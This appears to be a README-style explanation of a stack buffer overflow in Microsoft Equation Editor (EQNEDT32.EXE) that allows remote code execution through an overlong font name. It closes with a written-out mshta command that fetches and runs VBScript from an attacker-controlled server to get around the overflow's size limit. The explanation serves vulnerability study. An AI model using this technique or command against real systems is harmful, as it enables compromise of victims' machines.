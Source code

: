 # what the vulnerability is about

Microsoft Equation Editor, which is a Microsoft Office component, contains a stack buffer overflow vulnerability that enables remote code execution on a vulnerable system.

The component was compiled on November 9, 2000, over 17 years ago. Without any further recompilation, it was used in all currently upported versions of Microsoft Office. Microsoft Equation Editor is an out-of-process COM server that is hosted by eqnedt32.exe, meaning it runs as it’s own process and can accept commands from other processes.

Data Execution Prevention (DEP) and Address Space Layout Randomization (ASLR) should protect against such attacks. However, because of the manner in which eqnedt32.exe was linked, it will not use these features, subsequently allowing code execution. 

The vulnerability occurs when EQNEDT32.EXE tries to copy the font name into a locally created buffer. The buffer is only 40 (0x28) bytes, however if the font name is longer than 40 bytes (in this case 48 bytes), the buffer will overflow and EBP as well as the return address will be overwritten. When the function is done executing, the control flow will be taken to the attacker assigned address.

When we opened the proof of concept, this executed the Windows calculator and we saw the calculator UI appear. However, there is a limitation with this method, as the buffer can only put so many bytes into the buffer that is overflowing.

The size of an array that the attacker can overflow is 36 bytes (overflow_buffer in the above figure). However, it is possible to use the space of the v12 variable and saved EBP, which allows for an extra 8 bytes of space. If the command we want to issue is longer than the combined 44 bytes available, how could we do that?

One way is to host a file on a server controlled by the attack and use the 44 bytes for a command that accesses that server and executes another binary. For example, the following command uses the mshta executable to run VBscript code from a remote server, as is only 37 characters long (ignoring the de-fanging brackets.)

mshta.exe http://192.168.56[.]103:8080/abc

